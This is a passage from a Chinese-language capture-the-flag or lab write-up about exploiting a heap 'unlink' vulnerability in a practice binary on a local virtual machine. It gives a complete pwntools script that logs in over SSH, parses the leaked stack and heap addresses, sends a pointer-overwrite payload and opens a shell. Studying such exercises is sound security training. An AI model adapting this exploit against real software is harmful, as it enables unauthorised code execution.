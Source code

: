 但是远程攻击却能成功：

```asp
ifconfig
```

![image-20220508195112600](unlinkpwn/image-20220508195112600.png)

ip 地址为 192.168.191.128

使用 Python 程序来攻击，代码如下：

```python
from pwn import *
connect = ssh(host="192.168.191.128", port=22, user="seed", password="dees")
op = connect. run("./unlink")
shell_addr = 0x0804854b
op.recvuntil(b"here is stack address leak: ")
stack_addr = int(op. recv(10), 16)
op.recvuntil(b"here is heap address leak: ")
heap_addr = int(op. recv(10), 16)
print("stackAddress: ", hex(stack_addr))
print("heapAddress :", hex(heap_addr))
op.recvline()
ebp_4 = stack_addr + 0x10
heap_c = heap_addr + 0xc
payload = p32(shell_addr)*4 + p32(heap_c) + p32(ebp_4)
op.send(payload)
op.interactive()

```

![image-20220508195657881](unlinkpwn/image-20220508195657881.png)

攻击成功！
